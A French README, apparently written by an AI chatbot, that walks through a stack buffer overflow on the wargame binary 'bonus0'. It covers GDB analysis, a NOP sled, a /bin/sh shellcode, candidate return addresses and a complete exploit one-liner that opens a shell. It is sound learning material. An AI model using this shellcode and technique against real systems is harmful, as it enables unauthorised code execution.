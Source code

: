 Certainement ! Voici une version plus détaillée du README, incorporant l'explication du NOP sled et d'autres détails importants :

# Exploit détaillé pour bonus0

## Description du problème

Le binaire bonus0 présente une vulnérabilité de débordement de tampon. Il lit deux entrées utilisateur et les concatène de manière non sécurisée, permettant d'écraser l'adresse de retour sur la pile.

## Caractéristiques du binaire

- Pas de protection RELRO
- Pas de canary sur la pile
- NX désactivé (permet l'exécution de code sur la pile)
- Pas de PIE (les adresses sont prévisibles)

## Shellcode utilisé

```
"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
```

Ce shellcode de 21 octets exécute `/bin/sh`.

## Structure de l'exploit

1. Première entrée : NOP sled (100 octets) + Shellcode (21 octets)
2. Deuxième entrée : Padding (9 octets) + Adresse de retour (4 octets) + Remplissage (7 octets)

## Importance du NOP sled

Le NOP sled est une série d'instructions "No Operation" (\x90 en hexadécimal) placée avant le shellcode. Son importance est cruciale :

- Chaque NOP ne fait rien et passe à l'instruction suivante.
- Cette série crée une "glissade" vers notre shellcode.
- Peu importe où dans cette glissade on atterrit, on finira par atteindre le shellcode.
- Cette technique augmente considérablement la probabilité de succès de l'exploit, même si l'adresse de retour varie légèrement.

## Étapes détaillées de l'exploitation

1. Analyse du binaire avec GDB :
   ```
   gdb ./bonus0
   (gdb) disass main
   (gdb) disass p
   (gdb) b *p+28
   (gdb) run
   (gdb) x $ebp-0x1008
   ```
   Cela révèle l'adresse du buffer, par exemple 0xbfffe680.

2. Calcul de la plage d'adresses sûre pour le NOP sled :
   - Début : 0xbfffe680 + 61 = 0xbfffe6bd (61 octets pour les arguments et l'espace)
   - Fin : 0xbfffe680 + 100 = 0xbfffe6e4 (100 est la taille du NOP sled)

3. Construction de l'exploit :
   - Première entrée : 
     100 NOPs (\x90) suivis du shellcode de 21 octets
   - Deuxième entrée : 
     9 octets de padding ('A'), adresse de retour, 7 octets de remplissage ('B')

## Commande d'exploitation

```bash
(python -c 'print "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'; python -c 'print "A" * 9 + "\xd0\xe6\xff\xbf" + "B" * 7'; cat) | ./bonus0
```

## Adresses de retour possibles

- 0xbfffe6d0 (\xd0\xe6\xff\xbf)
- 0xbfffe6c0 (\xc0\xe6\xff\xbf)
- 0xbfffe6e0 (\xe0\xe6\xff\xbf)
- 0xbfffe6a0 (\xa0\xe6\xff\xbf)

Toutes ces adresses sont dans la plage du NOP sled, augmentant les chances de succès de l'exploit.

## Fonctionnement détaillé de l'exploit

1. La première entrée place le NOP sled (100 octets) suivi du shellcode (21 octets) en mémoire.
2. La deuxième entrée écrase l'adresse de retour pour pointer vers une adresse dans le NOP sled.
3. Lors du retour de la fonction, l'exécution saute à l'adresse spécifiée dans le NOP sled.
4. Les instructions NOP sont exécutées une par une, "glissant" jusqu'au shellcode.
5. Le shellcode s'exécute, lançant un shell avec les privilèges de bonus1.

## Pourquoi cela fonctionne

- NX est désactivé, permettant l'exécution de code sur la pile.
- Pas de canary sur la pile, permettant l'écrasement de l'adresse de retour.
- Le grand NOP sled offre une large "cible" pour notre adresse de retour.
- Même si l'adresse varie légèrement, tant qu'elle pointe dans le NOP sled, l'exploit réussira.

## Variabilité et robustesse

- L'adresse exacte peut varier selon l'environnement d'exécution.
- Le NOP sled rend l'exploit plus robuste face à ces variations.
- Tester différentes adresses dans la plage du NOP sled peut être nécessaire.

## Précautions et usage éthique

Cet exploit est fourni uniquement à des fins éducatives et de recherche en sécurité. Ne l'utilisez que sur des systèmes pour lesquels vous avez une autorisation explicite. L'utilisation non autorisée de cet exploit peut être illégale et non éthique.


